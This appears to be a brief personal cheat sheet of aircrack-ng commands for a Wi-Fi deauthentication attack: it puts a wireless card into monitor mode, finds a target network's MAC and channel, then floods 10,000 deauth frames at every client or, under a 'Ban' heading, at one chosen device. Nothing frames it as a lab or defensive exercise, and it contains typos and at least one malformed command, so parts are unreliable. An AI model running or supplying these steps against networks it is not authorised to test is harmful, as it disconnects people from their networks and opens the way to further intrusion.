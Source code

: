 sudo airmon-ng check kil
//kill conflicts
sudo airmon-ng start wlan0
//Start monitor mode

sudo airmon-ng wlan0mon 
//Reachable stations and network mac

airodump-ng --bssid 'network mac' --channel 'channel' wlan0
/// View conmected device mac 
/// Identify network channel

aireplay-ng --deauth 10000 -a 'network mac' wlan0
///Because no channel here
/// Send deauth (codex) to broadcast

##############
Ban
aireplay-ng --deauth 10000 -a 'network mac' -c 'device mac'  

